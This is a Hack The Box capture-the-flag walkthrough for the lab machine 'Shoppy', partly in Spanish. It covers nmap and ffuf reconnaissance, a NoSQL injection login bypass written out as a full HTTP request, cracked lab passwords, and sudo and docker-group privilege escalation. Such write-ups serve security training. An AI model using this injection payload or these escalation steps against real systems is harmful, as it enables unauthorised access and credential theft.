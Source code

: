 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Servidor Web

Ahora tenemos que ir al sitio web y enumerar con fuff.

`http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Se descubrió dos URL interesantes `http://shoppy.htb/login y http://shoppy.htb/exports`

## Acceder

### Acceder como administrador

Ahora en la URL login.

Si usamos una comillas simple (') en el campo de nombre de usuario, recibimos un 504 Gateway Time-out. Tenemos nuestro primer mensaje de error.El mensaje de error muestra la URL http://shoppy.htb/login?error=WrongCredentialsProbemos diferentes cargas útiles en el formulario de inicio de sesión.La carga útil adecuada para eludir el mecanismo de inicio de sesión a través de BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=admin

```

After logging in, we are redirected to `http://shoppy.htb/admin`

From this page, we can search for users. We can search for the user `admin`, and received the password for this user account. We’ve tried to crack this password, but it seems it is uncrackable. After filling in the payload `'||'1==1//` in the search bar (payload always trye), it shows all existing user accounts in the databse.

Let’s try to crack the password of the useraccount `john`.

We have found the password `remembermethisway`. With this password I’ve tried to login through SSH with this password, but no luck. After enumerating around, we found an extra sub-domain `http://mattermost.shoppy.htb`, using `ffuf`.

We cannot now login with the user `josh` with the cracked password.

After looking around, we find the credentials for the user account `jaeger` with the password `Sh0ppyBest@pp!`.

## SSH access as jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

With this user account, we can access the machine through SSH and grab the user flag.

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

### Move from jaeger to deploy

This user account has the permission to run `/home/deploy/password-manager` on behalf of the user account `deploy`.

After executing this program, it’s asking for a master password. As we are able to run the program, we can also try to read the program.

It seems that the password is: `Sample`.

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Yes! We have now the credentials for the user account `deploy`. We can switch to this user account and run `linpeas.sh`.

## Exploit docker <a href="#exploit-docker" id="exploit-docker"></a>

The user account `deploy` is in the `docker` group. Through [GTFObins](https://gtfobins.github.io/gtfobins/docker/) we can find the path to privilege escalation.

Thanks for reading this write-up! Did you enjoy reading this write-up? Or learned something from it? Please consider spending a respect point: [https://app.hackthebox.com/profile/224856.com/profile/224856](https://app.hackthebox.com/profile/224856.com/profile/224856). Thanks!
